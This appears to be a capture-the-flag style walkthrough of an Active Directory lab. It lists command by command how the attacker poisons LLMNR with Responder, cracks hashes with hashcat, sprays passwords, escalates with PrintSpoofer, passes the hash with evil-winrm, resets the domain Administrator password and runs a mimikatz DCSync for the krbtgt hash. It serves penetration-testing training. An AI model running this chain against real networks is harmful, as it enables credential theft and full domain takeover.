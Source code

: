 ## Getting a Foothold

### Attempting LLMNR/NBT-NS Poisoning
```shell-session
$sudo responder -I ens224 
```

Poisoning succeed for user AB920, saved results to `/usr/share/responder/logs/SMB-NTLMv2-SSP-172.16.7.3.txt`.

### Cracking the Hash
```shell-session
$hashcat -m 5600 AB920_ntlm /usr/share/wordlists/rockyou.txt
```

Found credentials AB920:weasal

### Attempting to use fping to Find Live Hosts
```shell-session
$fping -asgq 172.16.6.0/23
```

### Starting Nmap Scan to find Running Services
```shell-session
$sudo nmap -A -iL hosts
```

### Connecting with RDP to MS01

#### AB920
```
xfreerdp /v:172.16.7.50 /u:AB920 /p:weasal
```

### Attempting Password Spraying agian
```
for u in $(cat validUsers);do rpcclient -U "$u%Welcom1" -c "getusername;quit" 172.16.7.50 | grep Authority; done
```

#### BR086
```
xfreerdp /v:172.16.7.50 /u:BR086 /p:Welcome1
```

### Escalating Privileges
`.\PrintSpoofer.exe -i -c cmd`

### Logging in to SQL01 as Administrator
`evil-winrm -i 172.16.7.60 -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99`

### Connecting the MS01 with mssqlsvc 
```
proxychains xfreerdp /v:172.16.7.50 /u:'mssqlsvc'
```

### GenericAll rights for groups with CT059
![[Pasted image 20240504202533.png]]

### Changing the Administrator's Password
```
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

Set-DomainUserPassword -Identity administrator -AccountPassword $damundsenPassword -Verbose
```

Now opening PowerShell as Administrator.

### Getting the Flag
```
type \\DC01\C$\Users\Administrator\Desktop\flag.txt
```

### Using DCSync to get KRBTGTs Hash
```
PS C:\Users\CT059> .\mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\krbtgt
```
